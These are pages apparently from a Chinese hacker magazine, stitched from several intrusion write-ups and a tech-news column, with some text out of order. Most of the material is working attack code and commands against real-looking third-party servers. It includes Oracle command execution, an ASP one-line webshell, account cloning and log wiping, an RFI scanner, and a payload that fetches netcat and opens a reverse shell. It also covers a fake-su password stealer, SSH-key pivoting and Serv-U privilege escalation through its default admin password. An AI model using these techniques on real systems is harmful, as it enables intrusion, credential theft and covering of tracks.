由于很多系统命令被管理员限制了，现在只有靠自己的经验缓慢前进了。利用 tasklist 命令可以看到一些进程信息，现在来看看服务器中究竟开启了哪些服务。

执行如下命令：**exec :x:=run_cmz('cmd /c tasklist /svc');**，同样无法执行，看来管理员将服务器配置得格外变态。

既然从内部不能得到一些信息，那么我们从侧翼来窥视一下。这里需要使用端口扫描器对主机进行扫描，笔者选用的工具是 nmap，因为其结果比较精确，这一点对于提权是非常重要的。

执行扫描命令：**C:\>nmap -sT 221.231.143.8**，扫描结果如图10所示。

通过扫描我们得到了一些信息，笔者将比较重要的端口整理如下：

| PORT | STATE | SERVICE |
|---|---|---|
| 21/tcp | open | ftp |
| 81/tcp | open | hosts2-ns |
| 135/tcp | filtered | msrpc |
| 139/tcp | filtered | netbios-ssn |
| 445/tcp | filtered | microsoft-ds |
| 1025/tcp | filtered | NFS-or-IIS |
| 1434/tcp | filtered | ms-sql-m |
| 1521/tcp | open | oracle |
| 3389/tcp | open | ms-term-serv |
| 8080/tcp | open | http-proxy |

通过 FTP 方式访问 21 端口，得到 FTP 的版本为 Serv-U FTP Server V7.4。如果能够破解 FTP 的账户密码，就能够上传我们的提权工具了。

Serv-U FTP 新版本做了很大的改变，加密的账户已经没有存放在 ServUDaemon.ini 中，而是存放在扩展名为 Archive 的文件中，其中文件名就是 FTP 账号。

现在我们来定位下 Serv-U FTP 的安装位置，由于一些命令不能应用，这里只有运用比较笨的办法了。使用 dir 命令，经过笔者的仔细查看，发现 Serv-U FTP 被安装在 D 盘，如图11所示。

通过 DIR 命令查看 USERS 目录，发现一个名为“njfy.gov.cn”的目录，这个目录其实就是 FTP 建立的域，再查看这个目录下的文件，可以看到有两个配置文件，这两个文件正是我们要寻找的，如图12所示。

这时可以使用 type 命令查看文件的内容，执行如下语句：

图8 添加一个系统账户

图9 无法登录

图10 扫描结果

图11 Serv-U FTP 安装目录

图12 Serv-U FTP 配置文件

# 西线无战事

```sql
exec :x:=run_cmz('cmd /c type D:\RhinoSoft.com\Serv-U\Users\njfy.gov.cn\njfy.Archive');
```

成功读取配置文件信息，如图13所示。从图13中可以看到，用户的加密密码是 **pxB53B6D3CFE08777C918C86FEEE31FC11**，同样也可以看到用户的管理路径。这样我们可以破解这个用户的密码，上传我们的提权工具。但由于密码设置得比较安全，笔者并没有将其破解出来，这条路算是走到尽头了。

如果就这样放弃的话，也对不起祖国 60 岁的生日啊。向我们的解放军战士敬礼吧！笔者将最后的希望寄托于 81 端口了，使用浏览器打开 81 端口，如图14所示。

现在我们可以通过 ECHO 命令写入一句话木马，但是首先要获取其 Web 路径。我们可以读取 IIS 虚拟主机配置文件，执行如下语句：

```sql
exec :x:=run_cmz('cmd /c type c:\windows\system32\inetsrv\MetaBase.xml');
```

得到 Web 路径为：`D:\Inetpub\wwwroot\`。路径有了，可以写入一句话木马，执行如下语句：

```sql
exec :x:=run_cmz('cmd /c echo ^<%eval(request("#"))%^> >> D:\Inetpub\wwwroot\djfy\xx\xx.asp');
```

成功写入后使用客户端连接，如图15所示。

通过一句话木马写入了一个功能稍大的脚本木马，由于服务器权限设置得相当严格，不能浏览其它目录的信息，如图16所示。

获得 WebShell 是本文内容的一个中转，现在上传一个提取 hash 的工具，这类工具有很多，笔者选用的是 gsecdump.exe，如图17所示。

```sql
exec :x:=run_cmz('cmd /c D:\Inetpub\wwwroot\djfy\xx\gsecdump.exe -a>D:\Inetpub\wwwroot\djfy\xx\xx.txt');
```

执行命令提取所有系统用户的 hash 值后，发现无法提取，替换其它工具也无果。现在换条路走，我们来克隆 guest 账户。上传安全工具 AIO.EXE，克隆的用法很简单，具体参数如下：

```text
Usage: aio -Clone NormalAccount ClonedAccount NewPassword
```

我们执行如下语句进行克隆操作：

```sql
exec :x:=run_cmz('cmd /c D:\Inetpub\wwwroot\djfy\xx\aio -clone administrator guest 123456789.com');
```

执行克隆命令后，尝试使用添加的账户登录远程计算机，如图18所示，成功进入。

通过查看相关配置，发现该服务器设置很变态，这当然是一个好事，但对于我们来说是痛苦的。现在我们来简单审查一下痕迹，利用 AIO.EXE 的日志清除功能，执行命令：`D:\Inetpub\wwwroot\djfy\xx\aio-cleanlog`，日志正在清除中，如图19所示。

作为网管人员，面对这样的攻击者又该如何防御呢？笔者简单说一下安全配置。

首先第一要保证操作系统安全，如果操作系统都存在风险，那么谈 Oracle 安全配置就是一句空话。Oracle 安全加固可以参考以下几个方法（详细的安全配置笔者就不写了）：

- 1. Oracle 账户安全
- 2. 设置监听器密码
- 3. 修改 1521 端口
- 4. 使用 SSL 网络加密
- 5. 应用最新安全补丁

面对 Oracle 弱口令的攻击大潮，最简单有效的防御方法就是修改默认账户的密码，修改语句如下：

```sql
alter user sys identified by te444dfghh; //修改 sys 的密码为 te444dfghh
alter user system identified by f4ckhonk43; //修改 system 的密码为 f4ckhonk43
```

以上语句是修改默认管理员的密码，若要修改其他用户的密码，也可参考以上语句。

### 总结

本文详细介绍了 Oracle 提权的基本方法以及一些提权的技巧，希望本文对研究 Oracle 攻防的新手朋友有所帮助。另外，本文只是技术研究，严禁读者运用相关技术去破坏网络安全。对本文有任何疑问或者建议的朋友，请在《黑客手册》官方论坛（www.nohack.cn/bbs）或者岁月联盟与笔者交流，谢谢。最后感谢土豆大哥对笔者的帮助。

# 编辑点评

Oracle 在中、小站点中使用的还是比较少的，当你发现目标使用的是 Oracle 时，需要格外小心一些。

# 对某 19 套网站的一次检测

从本文可以学到渗透过程及思路

□N3t|0A[安天365西队]

## 一、开始

好久没写东西了，于是找个站来看看吧。这次的目标锁定为 it****ra.com 这个站，好像是 19 杂站。首先打开这个站，如图1。可以看出整个页面只有登录和注册，因为没注册，所以登录不了。想注册，但不知道为什么，点提交按钮没有反应。没办法，Google 一下吧，也只有首页，并没有发现有其它页面。接着拿出 wwwscan 和 jsky 扫一下，同样没有结果。正面看来是难以突破了，还是老办法，旁注吧。

## 二、旁注

打开 www.ip866.com，查询 it****ra.com，发现同一服务器上有几个站，如图2。

首先从 www.yc***yl.co.kr 这个站入手，找到一个地方可以直接上传 asp 文件，于是得到一个 WebShell，地址是：http://www.yc***yl.co.kr/upfile/DSCG0828.asp，如图3。

登录 WebShell 之后才发现，原来这台服务器上不是只有这几个站，而是有上百个站，分别放在 D 盘和 E 盘。尝试进入其它站点的文件夹，但提示无法访问，肯定是权限有问题。

接下来的事情肯定是提权了，试着执行命令，但却被防火墙挡着，不过幸好 wscript.shell 未被删除。上传一个 cmd.exe 到 WebShell 的所在目录，使用 wscript.shell 执行命令 whoami，得到当前用户是 nt authority\network service，如图4。

能执行命令就好办多了，于是马上上传提权工具 Churrasco（巴西烤肉）上去，执行 Churrasco 后运行："net user fdlsd 123456 /add && net localgroup administrators fdlsd /add"，没反应，可能是打了补丁的原因。尝试其它提权，serv-u 没有安装、radmin 没有安装、pcanywhere 没有安装，一些可以利用的提权软件都没有安装。

还有个办法，就是传个反弹木马到启动目录，等待机器重启。但我没有免杀的反弹木马，此路也不通。于是再收集一下其它信息，使用 netstat 查看了一下开放端口，用 ipconfig 查看了一下网卡情况，不是内网。再 ping 一下 google.com，ping 不通，但可以 ping 通数据库服务器，可能是策略或者防火墙做了阻挡。

上传一个 NC，想反弹一个 shell 回来，在本地执行 nc -vv -l -p 80，在 WebShell 上执行 nc -t -e d:\yc***y\www\upfile\cmd.exe 59.38.45.203 80，不过没有成功。

先看看是不是策略的原因，执行命令：netsh ipsec static exportpolicy d:\yc***y\www\upfile\ip.ipsec，导出当前的安全策略，但提示不成功，如图5。

也许不存在安全策略，那有可能是防火墙的原因。如果是防火墙，暂时没有办法突破。关于命令行操作 IP 策略，可参见：

http://n3tl04d.blog.51cto.com/89255/190931 一文。

当执行 ver 命令时，发现竟然是 XP 系统！上百个站的 Web 服务器竟然用 XP 系统？！网上查了一下，好像是个 64 位的 XP，难怪 churrasco 提权没反应，netsh 也不成功。但为什么可以执行 whoami 呢？真搞不懂。

到底是 XP 还是 2003？连接一下终端不就知道了吗？终端开放的端口是 9162，但我连不上，可能要用 VPN，但我没有。用 htran 也不可能，NC 都反弹不回来，htran 肯定也不行。算了，先不管是什么系统了，几乎没什么思路搞下去了。

## 三、重燃希望

放了一天，想到了服务器上其它站的上传目录可能也可以写入文件吧？于是从用户名中取出 ed**et 上网 Google 了一下，得到 ed**et.or.kr 这个站。ping 一下，返回的 IP 和目标站一样，说明同在一个服务器上。

在 ed**et.or.kr 找到一个上传目录 http://ed**et.or.kr/DATA/h_photo/，在服务器上对应的目录是：d:\ed**et\www\DATA\h_photo\。

确认一下，ed**et 文件夹是在 D 盘（因为有些网站是在 E 盘），执行 echo test>d:\ed**et\www\DATA\h_photo\test.asp 没提示出错，马上访问 http://ed**et.or.kr/DATA/h_photo/test.asp，看到页面了，也就是说目标站的上传目录是可以写入文件的。

但问题是，那个文件夹才是目标站点的呢？它的上传目录又是什么呢？用 it** 和 **ra 分别在用户名里查找，并没有发现有匹配的。返回 ip866.com 查了一下，域名注册的邮箱是 kim***tae@hanmail.net，于是再查找 kim 和 tae，也没有匹配的，再次陷入困局。

## 四、真正的光明？

无聊输入 http://it****ra.com/main/main.asp，竟然返回一个页面，如图6。

难道是人品爆发？其实也不全是，只是突然想起以前有的站也是采用的 main/main.php 目录文件结构，而且上传目录是 pds_update，那么此站的上传目录肯定也是一样了，于是访问 http://it****ra.com/pds_update/，真的存在这个目录，啊啊。

上传目录找到了，接下来是找目标站所在的文件夹。在此之前应该看一下上传目录是否有执行脚本的权限，不要等上传完才发现上传的 WebShell 不能执行，浪费时间。

于是随便访问一个不存在的页面 http://it****ra.com/pds_update/n3t.asp，返回的是 404 页面不存在的错误。如果是返回 403，那说明是没有执行脚本的权限。

仔细看了一下站点，其它地方都不能注入，但在弹出页面 http://it****ra.com/main/pop_active.asp?idxnum=7 可以注入，所以有时搞站，有页面想弹出来，你就让它弹出来吧！

到这里可以分开两步走，一是尽量找出目标站的文件夹，二是注入后进入后台，然后找上传的地方得到 WebShell。这里我们还是选择找文件夹，毕竟简单些。

先看看数据库名，一般来说数据库名和网站的目录是一样的；于是访问：http://it****ra.com/main/pop_active.asp?idxnum=7%20and%20user%3E0，得到数据库名为 jekook。

在服务器上找一下，在 E 盘下发现有一个 jekook 的文件夹，肯定就是它了。那么在 WebShell 可以写入的目录应该为：e:\jekook\www\pds_update\。

```cmd
echo ^<%^execute request("n3t")%^> > e:\jekook\www\pds_update\help.asp
```

然后访问一下 http://it****ra.com/pds_update/help.asp，出现 execute 的错误，写入成功。用一句话客户端连接一下，准备写入一个大马，但出现错误，意思是说没有权限，如图7。

不过可以读文件和文件夹。通过读文件得到数据库的用户名和密码，也找到后台密码，不过后台是通过 IP 来验证的，不能登录。

其实到这里也可以说结束了，但我还是想拿到目标站的一个 WebShell，不然又会被别人笑话，于是继续……

通过测试发现，能 echo 一句话进去，那么是不是可以 copy 一个大马进去呢？尝试 copy d:\yc***y\www\upfile\help.exe e:\jekook\www\pds_update\n3t.asp，很遗憾，提示没有权限。于是想直接 echo 一个小马，行不行呢，但发现没有修改的权限。想 echo 一个包含文件进去，但 asp 的 include 不能跨盘，如果是 php 就可以上传一个大马到一个 everyone 读的目录，再 echo 一个包含此大马的文件就 OK 了，此方法杂志上曾经讲过。

## 五、最后的胜利

最后在 WebShell 上看到一个 HTTP 下载文件的选项，于是尝试下载一个文件到 e:\jekook\www\pds_update\ 目录中，竟然成功，晕！于是马上下载一个大马到 e:\jekook\www\pds_update\ 目录下，访问……

# 反渗透国外 IDC


- 从本文可以学到：
- 信息刺探和分析
- 渗透目标的思路和方法

## 一、起因

一日，IDS 发来警报，Apache 受到攻击。虽然最终没有让攻击者得逞，可这事不能这么就算了，我得看看是哪路“神仙”敢在太岁头上动土。

## 二、反击

根据对来源 IP 的检测，仅开放了 22、80 端口。可见对方也是一台 Web 服务器，这么说来很可能是跳板。不管怎么说，先拿下它！

通常一台 Web 服务器会有多个虚拟空间存在，基本上难以保证每个网站代码都是安全的，所以对于那些带有多个网站的服务器，想到 WebShell 几乎是很容易的事。

### 1、刺探

对于网站的信息刺探当然利用 Google。先到 www.myipneighbors.com 查询此服务器 IP 对应的域名，再利用 Google 搜索 `inurl:domain.com`，把获取到的页面进行逐个检查。

可这个 IP 对应的域名实在是太多了，根据来自此 IP 的攻击手段，它似乎是在寻找 RFI（remote file include）漏洞。OK，如果此服务器是跳板，很可能也是因 RFI 漏洞被攻击者拿下的，那我们就从 RFI 漏洞着手。

根据 Google 搜集到的服务器所有 URL，我们放到一个文本文件中，下面通过程序来快速检测这些链接。废话不多说，请看以下代码。

#### （1）Rfi.txt

这个其实是 PHP 代码，功能是测试目标网站 PHP 脚本是否会执行此代码。

```php
<?php
// 通过 php 的 unpack 函数来判断，如果页面输出 2a73637266637874392a 则表明 php 代码被执行了
$pcode=unpack('H*','*scrfcxt9*');
echo $pcode[1];
// phpinfo();
echo '<br>';
// 执行命令 ls /etc/pass*d，如果返回 /etc/passwd，则认为 php 代码能执行系统命令
echo execute('ls /etc/pas*d');

function execute($cfe) {
    $res = '';
    if ($cfe) {
        if(function_exists('exec')) {
            @exec($cfe,$res);
            $res = join("\n",$res);
        } elseif(function_exists('shell_exec')) {
            $res = @shell_exec($cfe);
        } elseif(function_exists('system')) {
            @ob_start();
            @system($cfe);
            $res = @ob_get_contents();
            @ob_end_clean();
        } elseif(function_exists('passthru')) {
            @ob_start();
            @passthru($cfe);
            $res = @ob_get_contents();
            @ob_end_clean();
        } elseif(@is_resource($f = @popen($cfe,'r'))) {
            $res = '';
            while(!@feof($f)) {
                $res .= @fread($f,1024);
            }
            @pclose($f);
        }
    }
    return $res;
}
?>
```

#### （2）Rfiscan.pl

这是批量检测代码，便于快速定位漏洞 URL。

```perl
#!/usr/bin/perl -w
use LWP::Simple;           # 使用 lwp 来获取 url 内容，进行判断
use Parallel::ForkManager; # 使用 ForkManager 进行多线程快速执行

$|=1;

my $urlfile=shift||die 'need list!';
my @urllist;
my $forkno=100;
my $count=0;
##### 设置远程包含文件位置
my $phpurl='http://www.mysite.com/rfi.txt?';
print <<DONE;
        R F I   C h e c k e r
                By H. jack
DONE
print "-"x75,"\n";
my $stime=time;
# 打开 url 列表文件
open(URLL,"$urlfile") or die "$!";
##### 循环读取，并添加到数组
while(<URLL>) {
    chomp($_);
    push(@urllist,$_);
}
my $allurl=scalar(@urllist);
close URLL;

##### 打开日志文件句柄
open(SLOG, "+>>$urlfile.log") or die "$!";
##### 设置最大线程数
my $forkm = new Parallel::ForkManager($forkno);
# 循环读取数组，并把 url 作为参数执行检测进程
for(@urllist)
{
    chomp($_);
    print "[".$count++."/$allurl]\n";
    $forkm->start and next; # do the fork

    my $url=$_.''.$phpurl;
    my $urlre;
    my $smsg="";
    $smsg.="URL=$url\n------------------------------\n";
    if($urlre=get($url))
    {
        if($urlre=~/2a73637266637874392a/){$smsg.="[run php code success]\t";}
        if($urlre=~/\/etc\/passwd/){$smsg.="[run command success]\t";}
        else{$smsg.="[all action failed]\n";}
    }
    else
    {
        $smsg.="[get Fail]\t";
    }
    sleep 1;
    print "$smsg\n------------------------------\n";
    print SLOG "$smsg\n------------------------------\n";

    $forkm->finish; # do the exit in the child process
}
$forkm->wait_all_children;

sleep 1;
print "$smsg\n------------------------------\n";
print SLOG "$smsg\n------------------------------\n";

close SLOG;
print "-"x75,"\n";
my $etime=time;
my $ttime=$etime-$stime;
print "All done in ".stime($ttime)."\n";

sub stime
{
    my $stime=shift;
    my $hour=int($stime/(60*60));
    my $minute=int(($stime-($hour*60*60))/60);
    my $second=$stime-$hour*60*60-$minute*60;
    return ("$hour hours $minute mins $second secs");
}
```

### 2、利用漏洞

（1）接下来就是信息的收集和扫描。把从 Google 搜索到的 URL 保存到 urllist.txt，然后利用我们的工具逐个检测，如图 1。于千辛万苦，通过对 N 多个 URL 的检测，终于查到一个 RFI 漏洞，确实不容易啊，如图 2。


注意图 2 中的“2a73637266637874392a”和“/etc/passwd”，根据我们的代码，这表示此服务器既存在 RFI 漏洞且 PHP 代码能执行系统命令。

（2）接下来我们就要获取 shell。使用以下 PHP 代码：

```php
<?php
system('wget http://your-ip/netcat -O /tmp/ntc 2>&1');
system('chmod +x /tmp/ntc 2>&1;/tmp/ntc your-ip 8080 e /bin/sh 2>&1');
//system('wget http://your-ip/phpspy.php');
?>
```

相信大家已经看明白了，当使用 RFI 漏洞访问我们的 PHP 页面，并执行其中的代码时，就会下载一个 nc 到服务器的 tmp 目录，并反向连接到你的 IP，得到一个 `/bin/sh` 的 shell；或者先下载一个 PHP WebShell 上去，再慢慢玩咯。

### 3、Got root

#### （1）获取普通用户权限

不急，咱们慢慢检查服务器上所有可以看的文件吧。哇，Root 目录居然可以浏览，当然是不可写的了，多数文件也不可读。进入到一个 `.mc` 目录，发现 `filepos` 文件可读，哈哈，终于找到好东西了。Mcedit 是一个 Debian 系统下的文本编辑器，MC 可通过 FTP 访问文件。按 `username:passwd@hostname.domainname` 格式输入 URL，远程文件目录就会以本地目录的方式显示出来。通过 mc 编辑的文件会留下历史记录到 `/root/.mc/filepos`，在这文件里我就发现了 FTP 账户和密码，再用这个账户通过 SSH 登录，成功了。

#### （2）提权

接下来就是提权了，大家可能说，那么多 0day，随便一提就好了。可惜我在这次渗透时 0day 还没出来呢，怎么办？这下就要用到一些“卑鄙”的猥琐手法了。

我们通过 history 观察到管理员常常通过这个账户 `su` 到 root，这样就可以通过替换 `su` 来获取 root 密码。Fakesu.c 代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[]){
    FILE *fp;
    char *user;
    char *pass;
    char filex[100];
    char clean[100];
    // 指定密码记录文件位置
    sprintf(filex, "/var/tmp/.pwds");
    // 指定获取到密码之后删除我们的痕迹
    sprintf(clean, "rm -rf /var/tmp/.su;mv -f ~/.wgetrc ~/.bash_profile");
    if(argc==1) user="root";
    if(argc==2) user=argv[1];
    if(argc>2){
        if(strcmp(argv[1], "-")==0)
            user=argv[2];
        else user=argv[1];
    }
    // 从用户输入中获取密码
    fprintf(stdout,"Password: ");
    pass=getpass("");
    system("sleep 3");
    // 欺骗用户的提示语句
    fprintf(stdout, "su: Authentication failure\nSorry.\n");
    // 把获取到的 root 密码写入记录文件
    if ((fp=fopen(filex,"w")) != NULL)
    {
        fprintf(fp, "%s:%s\n", user, pass);
    }
    fclose(fp);
}
// 获取到密码之后，删除我们的记录程序并把 su 连接到真实程序
system(clean);
system("rm -rf /var/tmp/.su; ln -s /bin/su /var/tmp/.su");
}
```

我们下好“绊马索”之后，就要等待下次管理员登录并 `su` 了，耐心点。

```bash
admin@host:~$ gcc -o .su fakesu.c; rm -rf fakesu.c
admin@host:~$ mv .su /var/tmp/.su
admin@host:~$ cp .bash_profile .wgetrc
admin@host:~$ echo "alias su=/var/tmp/.su" >> .bash_profile
admin@host:~$ logout
```

这里要介绍一下 alias 命令：

> alias（中文称为“别名”）允许使用更加简短的名称来重新定义 Linux 中的 Shell 命令，从而简化命令行的输入。

可是简单就意味着会出现安全问题，上面我们就利用把 `su` 指向记录程序 `/var/tmp/.su`，提取了 root 密码，这是 Linux 黑客们常用的手法之一。

两天之后，恶无虚念地得到了 root 的密码！

### 4、分析

但是别忘记了，我们的使命是追踪来犯之敌！下面来分析系统日志。

```bash
#### 先把 HISTFILE 变量设置为 /dev/null，避免我们的命令被记录
root@host:~# export HISTFILE=/dev/null

# rfi 攻击会在日志中留下带 http 或 ftp 的请求记录，这里能查到其他攻击者
root@host:~# grep http /var/log/access_log

#### 检查对应的攻击者 IP 是否曾经登录过系统
root@host:~# grep hackerip auth.log
```

确实此服务器曾经被其他人攻击过，看来这是个跳板。

### 5、扩大成果

此 IDC 一共有 6 台服务器，其他服务器或许也被攻击过，也应该检查一下。既然我们已经打入内部，下面的事情就好办多了，其实这里我们有两个办法来搞定服务器统辖权限。

#### 1、通过 SSH Key 认证控制其他服务器

在 root 目录下看到了 `.ssh` 目录，里面保存着公钥文件：`~/.ssh/id_rsa.pub`，私钥文件：`~/.ssh/id_rsa`。

通过 history 记录看到，root 经常通过 scp 在各服务器之间复制文件，如果其他服务器 SSH 允许使用 Public Key 而不用密码登录的话，其他服务器都是可以随便访问。再者既然能 scp 文件的话，替换对方服务器重要文件，咱们也可以有 N 多方式搞定的。

#### 2、通过各服务器的 Web 跳转渗透

得到 root 之后，从虚拟空间管理页面目录发现了 MySQL 数据库账户。

```sql
mysql> select count(*) from domains;
+----------+
| count(*) |
+----------+
| 2112     |
+----------+
1 row in set (0.00 sec)
```

2000 个网站的信息都在这里，不用说，先得到 FTP 密码，传个 Web 上去，然后反弹 shell，提权，它的所有服务器都能拿下，这里就不重复叙述了。

好了，到此我们的反渗透之旅已经达到目的，接下来给 root 发封信提醒他服务器的安全问题吧：“hi guy I was root your box ......”

（文字中用到的脚本代码都已经收录在光盘中）

> **编辑点评：**
>
> 反渗透是个很有趣的话题，通过对手遗留下来的蛛丝马迹顺藤摸瓜地找到目标后，再通过信息刺探和分析，最终顺利渗透目标。本文作者较多地通过自己编写利用脚本来达到目的，大家可以在这方面有意识地积累一些。

### 6、思考

- 关于权限：为什么能 echo 一个文件进去，而不能 copy 一个文件进去呢？能 echo 应该是可以有写入权限的。
- 关于网络：ping 不通，也反弹不回来，为什么可以通过 HTTP 下载？

> 编辑点评：这个服务器的限制算不错的了，作者通过一些思考和变通，最终达到目的，其也遇到一些比较费解的问题，大家可以一起思考下。

`user.asp`，久违的 WebShell 啊，终于出现了，如图 8。

# 犯一次 Serv-U 提权

- Serv-U 提权经验总结
- 实战演示

Serv-U 提权可谓是老生常谈了，由于 Serv-U 的用户多，提权成功率也高，众多 ASP 木马纷纷将此提权功能集成在内。然而通过这次操作我又发现，Serv-U 提权绝不是填好表单、提交命令那么简单，因为很多细节决定着提权的成败。

## 一、出师不利

得到了某站点的 WebShell，几个常用的目录都可以跳转，在其中的“程序”文件夹里找到了 Serv-U 的快捷方式。下载下来查看一下，安装路径在 G 盘，但是没有访问权限。

用“netstat -an”命令查看端口信息，21 端口和 43958 端口都开放了，正当我确信 Serv-U 在提供 FTP 服务时，访问 21 端口却意外地出现了 Microsoft FTP 的欢迎信息，如图 1 所示。

奇怪，难道管理员在欢迎信息上做了手脚？结合“netstat -ano”和“tasklist”两条命令，我看到监听 21 端口的是进程“inetinfo.exe”，而监听 43958 端口的是进程“Serv-UDaemon.exe”。看来 Serv-U 是存在的，只是没有提供 FTP 服务罢了。

Serv-U 提权采用的是先添加一个系统管理员特权的用户，然后登录 FTP 空间执行命令的方法，而这里 Serv-U 根本就没有提供 FTP 服务，提权怎么进行？

## 二、原理分析

“欲人侵之，必先知之”，本地架起 Serv-U，先研究研究再说。Serv-U 有两个主要的进程：“Serv-UAdmin.exe”和“Serv-UDaemon.exe”。

进程“Serv-UDaemon”监听端口 43958，接受“Serv-UAdmin.exe”的管理，并打开端口（如：21 端口）提供 FTP 服务。通过抓包我们发现“Serv-UAdmin.exe”在对“Serv-UDaemon.exe”进行管理时是通过发送如下数据进行的：

```text
// 首先要通过身份验证
USER LocalAdministrator
PASS #!@$ak#;lk;O@P
SITE MAINTENANCE
```


## 三、再次进攻

```
// 新建域
-SETDOMAIN
--Domain=sina|0.0.0.0|21|-1|0
--DynDNSEnable=0
--DynIPName=
// 新建用户
-SETUSERSETUP
--IP=0.0.0.0
--PortNo=21
--User=baikai
--Password=baikai
--HomeDir=C:\
--LoginMesFile=
--Disable=0
--RelPaths=0
--NeedSecure=0
--HideHidden=0
--AlwaysAllowLogin=0
--ChangePassword=0
--QuotaEnable=0
--MaxUsersLoginPerIP=-1
--SpeedLimitUp=0
--SpeedLimitDown=0
--MaxNrUsers=-1
--IdleTimeOut=600
--SessionTimeOut=0
--Expire=0
--RatioUp=1
--RatioDown=1
--RatiosCredit=0
--QuotaCurrent=0
--QuotaMaximum=0
--ExpirationType=Delete
--Maintenance=System
--PasswordType=Regular
--Ratios=None
Access=C:\RWAMELCDP
// 删除用户
-DELETEUSER
--IP=0.0.0.0
--PortNo=21
--User=xiaohai
// 删除域
-DELETEDOMAIN
--IP=0.0.0.0
--PortNo=21
// 停止 Serv-UDaemon.exe
-SERVICECOMMAND
--Command=StopNow
```

以上测试可以通过命令“telnet 127.0.0.1 43958”实现，如图2所示。


可见，要对“Serv-UDaemon.exe”进行管理，不一定必须要用“Serv-UAdmin.exe”，只需满足两点即可：

- 本地发送的数据包，这是因为监听 43958 端口的 IP 是 127.0.0.1，这一点在拿到 WebShell 后即可实现；
- 通过身份验证，只要管理员没有修改默认的管理员密码就可以了。

Serv-U 提权工具利用的就是这个原理。知道这些后，我们的提权就有了思路：要想让 Serv-U 开放端口、提供 FTP 服务，先添加一个域不就行了。

从网上下载到了“我非我”的 PHP 版 Serv-U 提权工具，与 ASP 版的工具相比，PHP 版的优势是有回显，我们可以得到命令执行结果，只不过这个工具并不能创建域。没关系，稍微修改一下就可以了。我在发送的数据里先加上以下部分：

```
-SETDOMAIN
--Domain=sina|211.*.*.155|222|-1|1|0
--DynDNSEnable=0
--DynIPName=
```

新建一个名称为“sina”的域，该域监听 211.*.*.155 的 222 端口。用命令查看一下，果然端口已经打开，如图3所示，这也意味着默认密码没有修改。


接下来就添加用户吧。工具有这个功能，直接填好进行提交就好了，可是接下来却出现错误：“505 Domain not found”。奇怪，看看代码，工具发送的数据为：

```
-SETUSERSETUP
--IP=0.0.0.0
--PortNo=222
--User=baikai
```

意思就是在 IP 为 0.0.0.0、端口号为 222 的域上新建一个名为 baikai 的用户。问题就出在这里，我创建的域 IP 为 211.*.*.155，虽然 0.0.0.0 代表该机所有可用 IP，但 Serv-U 明显把它们看成了两个不同的域。

修改后再次提交，显示用户添加成功。赶紧用 FTP 登录一下，但很快又出现错误：Unknown host。端口明明打开了，为什么会出错呢？本地测试发现，Serv-U 在没有使用 21 端口的情况下就容易出现这种错误，如图4所示。


郁闷，域虽然创建好了，但是却用不了，21 端口又已经被 Microsoft FTP 占用了，接下来怎么办？

“我非我”的 PHP 版 Serv-U 提权工具有执行命令的部分，用它能行吗？试了一下，结果返回：“unable to connect to 127.0.0.1:222（由于连接方在一段时间后没有正确答复或连接的主机没有反应，连接尝试失败。）”。再看源代码，它是这样写的：

```
$conn_id = fsockopen("127.0.0.1", $ftport, $errno, $errstr, 8);

if (!$conn_id) {
    echo "$errstr ($errno)<br>\n";
} else {
    fputs($conn_id, "USER ".$user."\r\n");
    sleep(1);
    fputs($conn_id, "PASS ".$password."\r\n");
    sleep(1);
    fputs($conn_id, "SITE EXEC ".$dir."cmd.exe /c ".$cmd."\r\n");
    fputs($conn_id, "QUIT\r\n");
    sleep(1);
    while (!feof($conn_id)) {
        echo fgets($conn_id, 128);
    }
    fclose($conn_id);
}
```

又是 IP 的问题，Serv-U 提供服务使用的是 211.*.*.155:222，而工具发送数据包的地址是 127.0.0.1。将其修改为 211.*.*.155 后提交，显示命令执行成功，接下来添个用户，就可以从远程终端登录上去了，如图5所示。

也许就是所谓的“循环”吧，前段时间过于平静了，似乎也预示着近期总会有更大的波澜。MySQL 让人提着心，Linux Web Server 僵尸网络更让我们小汗了一下！机器人和 iPhone 算是开了吧，而我们可爱的小企鹅最近也漏洞不断……就连一向相当安全的 FreeBSD 也爆了个 root 提权的漏洞。不过所谓“乱世出英雄”，各位英雄们，该出手啦，趁最近的混乱赶快捞奖呀！


# 1、日本七公司抱团研发新型 CPU，欲抢 Intel/AMD 饭碗

也许未来几年内 Intel/AMD 在处理器市场上可能会遇到一些麻烦。最近以 NEC、瑞萨科技为首的七家日本大型处理器设计/制造公司——日立、东芝、富士通、松下以及佳能——结成了技术联盟，它们将共同开发一种新型商用处理器。这种处理器在省电性能方面将具备一定的优势，可以根据需要处理的数据来控制处理器的功耗，而且据称在切断电源时仍能保持工作状态，并可采用太阳能电池进行供电。这款新处理器及其适用的标准将于 2012 年面世，产品不仅面向 PC 机，而且还可以广泛适用于各类消费电子产品。

先不说产品如何，单单这七家公司的名字串在一起就的确很容易使人产生“如雷贯耳”之感！不过由于新处理器并非采用目前主流的 x86 指令集架构，因此短期内要想挑战 Intel/AMD 产品的地位似乎并不是那么容易。不过“节能省电”无疑是处理器技术发展的一个主要方向，而这次日本“七武士”的合作也不像是在虚张声势。

> **凤凰点评：** 中国有了龙芯，看来日本也坐不住了，难道也要搞一个“日芯”出来？不管怎样说，至少这个“由芯”的设计方向还是值得一报的，未来谁能闹得越来越凶，不知道到时处理器的性能会怎么样？别看七个公司个个实力非凡，可到了一起能不能真的拧在一起还很难说呢。

# 2、Chrome Dev 分支默认将开启扩展支持

既羡慕 Chrome 的轻快，又手握几个重要扩展，迟迟下不了狠心放弃 Firefox 的火狐用户们有福气了！今天 Chromium 官方博客宣布，今后发布的 Chrome Dev 分支版本默认将开启扩展支持，这将意味着 Chrome 的扩展已经属于正式功能（而非实验性的），Google 已经为大规模的 Chrome 扩展做好了准备。

Chromium 官方博客还透露，他们在努力改造下个 Chrome Beta 版本，用户界面估计会有所变化，Chromium 开发小组接下来的目标就是让扩展更容易开发，他们已经发布了全新的开发文档。

> **凤凰点评：** 用 Chrome 的哥们笑吧，火狐流行的一部分原因正是它强悍的扩展。相信不久之后，各类火狐上强悍的扩展也会在 Chrome 上出现，个人看来除了界面和速度以外，这也将成为 Chrome 最大的优势。到时该如何选择呢？估计 Firefox 4 出来后，路也不会好走啊。

# 3、Linux 内核 20 天内连爆两高危漏洞

Linux 内核漏洞最近几乎是一月一爆，在 8 月 15 号爆了一个几乎通杀所有版本、所有内核、所有架构的漏洞后，在学生返校的大喜日子里，竟然又爆了一个通杀内核 2.6 < 2.6.19 的所有 32 位 Linux，算是 Google Security Team 给学生们的礼物吧。

